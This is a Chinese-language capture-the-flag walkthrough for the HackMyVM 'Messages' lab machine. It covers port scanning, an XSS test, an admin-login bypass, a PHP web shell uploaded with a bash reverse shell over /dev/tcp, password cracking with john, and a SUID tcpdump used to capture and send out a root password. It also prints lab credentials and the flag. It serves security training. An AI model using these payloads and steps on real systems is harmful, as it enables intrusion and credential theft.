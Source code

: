 > 靶机地址：https://hackmyvm.eu/machines/machine.php?vm=Messages

### 环境准备

vmware kali  桥接

virutalbox messages 桥接

![image-20240223151245703](imgs/image-20240223151245703.png)

### nmap扫描

简单端口扫描

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 172.168.102.66
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-23 02:00 EST
Nmap scan report for 172.168.102.66
Host is up (0.00040s latency).
Not shown: 65525 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
```

详细信息扫描

```bash
┌──(kali㉿kali)-[~]                                                             
└─$ sudo nmap -sT -sV -O -p22,25,80,110,143,465,587,993,995,443 172.168.102.66  
sudo: unable to resolve host kali: Temporary failure in name resolution         
[sudo] password for kali:                                                       
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-23 02:17 EST                 
Nmap scan report for 172.168.102.66                                             
Host is up (0.00042s latency).                                                  
                                                                                
PORT    STATE SERVICE  VERSION                                                  
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5 (protocol 2.0)                    
25/tcp  open  smtp     Postfix smtpd                                            
80/tcp  open  http     nginx                                                    
110/tcp open  pop3     Dovecot pop3d                                            
143/tcp open  imap     Dovecot imapd                                            
443/tcp open  ssl/http nginx                                                    
465/tcp open  ssl/smtp Postfix smtpd                                           
587/tcp open  smtp     Postfix smtpd                                            
993/tcp open  imaps?                                                            
995/tcp open  pop3s?                                                            
MAC Address: 08:00:27:D8:C2:A6 (Oracle VirtualBox virtual NIC) 
Warning: OSScan results may be unreliable because we could not find at least 1 
pen and 1 closed port                                                           
Device type: general purpose                                                    
Running: Linux 4.X|5.X                                                          
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5                 
OS details: Linux 4.15 - 5.6, Linux 5.0 - 5.4                                   
Network Distance: 1 hop                                                         
Service Info: Hosts: -mx.messages.hmv,  mx.messages.hmv; OS: Linux; CPE: cpe:/o:
linux:linux_kernel                                                              
                                                                                
OS and Service detection performed. Please report any incorrect results at https
://nmap.org/submit/ .                                                           
Nmap done: 1 IP address (1 host up) scanned in 18.68 seconds 
```

nmap扫描没有什么有用的信息



### Web渗透

访问`80`端口

![image-20240223153528477](imgs/image-20240223153528477.png)

点击`Chatbot`，存在XSS漏洞

```js
<script>alert('sectest')</script>
```

![image-20240223153620427](imgs/image-20240223153620427.png)

访问`Webmail`是一个登录框，使用`万能用户名`测试，不存在SQL注入

#### 目录扫描

```bash
 dirb https://172.168.102.66/chatbot/
```



![image-20240223153849179](imgs/image-20240223153849179.png)



发现`/chatbot/admin/`也是一个登录界面，使用万能用户名登录成功！



![image-20240223153956419](imgs/image-20240223153956419.png)

![image-20240223154045977](imgs/image-20240223154045977.png)

在`Settings`中找到上传文件的位置

![image-20240223154406238](imgs/image-20240223154406238.png)

直接上传php木马，并没有对上传的文件做检测

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.168.102.69/4567 0>&1'"); ?>
```

上传以后，kali监听端口，找到能够触发刚刚上传的木马的位置，点击，反弹shell

下图位置触发了反弹shell，我上传的是 `system logo`

![image-20240223154644468](imgs/image-20240223154644468.png)

![image-20240223154739490](imgs/image-20240223154739490.png)

#### 权限提升

反弹拿到的`shell`位置是在`/html/chatbot/uploads`，该位置没有有用的东西，返回上一级查看，找到一个`config.php`

![image-20240223155107355](imgs/image-20240223155107355.png)

`config.php`包含了三个文件,挨个查看

![image-20240223155349247](imgs/image-20240223155349247.png)



` initialize.php`文件中发现了数据库账号密码`chatbot:chatbot`

![image-20240223204243531](imgs/image-20240223204243531.png)



但是在连接Mysql的时候发现好像不太正常，没有正确显示

![image-20240223205045255](imgs/image-20240223205045255.png)

可以输入一下命令，再去连接MySQL，就可以成功！

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

![image-20240223205215211](imgs/image-20240223205215211.png)

在`vmail`库中的`mailbox`表中找到几个邮箱

![image-20240223205832645](imgs/image-20240223205832645.png)

密码都做了加密处理

`john`解密出`ruby@messages.hmv`邮箱的密码`Ruby.r123`

```bash
john passwd --wordlist=/usr/share/wordlists/rockyou.txt
```



![image-20240223210142636](imgs/image-20240223210142636.png)

网站去首页登录

![image-20240223210237597](imgs/image-20240223210237597.png)

![image-20240223210308735](imgs/image-20240223210308735.png)

发现了`root`发送的邮箱

![image-20240223210507798](imgs/image-20240223210507798.png)

![image-20240223210936714](imgs/image-20240223210936714.png)

找到私钥，保存到`id_rsa`里，赋予`600`权限，必须是`600`权限不能赋予过大

![image-20240223210855307](imgs/image-20240223210855307.png)

ssh连接`ruby`

> 靶机这里由于网络环境，ip发生变化

![image-20240223211053136](imgs/image-20240223211053136.png)

查看当前目录，并查看`suid`

![image-20240223211507655](imgs/image-20240223211507655.png)

发现可疑的`tcpdump`，监听本地回环网卡

```bash
/usr/bin/tcpdump -i lo -w saury.pcap
```

因为在前面了解到只能用`127.0.0.1`

![image-20240223213129579](imgs/image-20240223213129579.png)

运行后，等一会，然后`ctrl+c`结束抓包

![image-20240223211913735](imgs/image-20240223211913735.png)

完事后，将`saury.pcap`下载到kali本地上

kali监听 

```bash
nc -lvvp 4567 > saury.pcap
```

靶机上进行局域网传输

```bash
cat saury.pcap > /dev/tcp/192.168.1.103/4567
```

![image-20240223212207561](imgs/image-20240223212207561.png)

局域网传文件完成

![image-20240223212225044](imgs/image-20240223212225044.png)

这个时候可以用`wireshark`去分析`saury.pcap`，也可以用`string`命令字提取其中的字符串

```bash
strings saury.pcap | grep "user"
```



![image-20240223212519755](imgs/image-20240223212519755.png)

```bash
 strings saury.pcap | grep "pass"
```

![image-20240223212735196](imgs/image-20240223212735196.png)

`Th1$isR3411yS3cuRe`

![image-20240223212915745](imgs/image-20240223212915745.png)

`HMV{root:messages.hmv:5d3db63bba}`

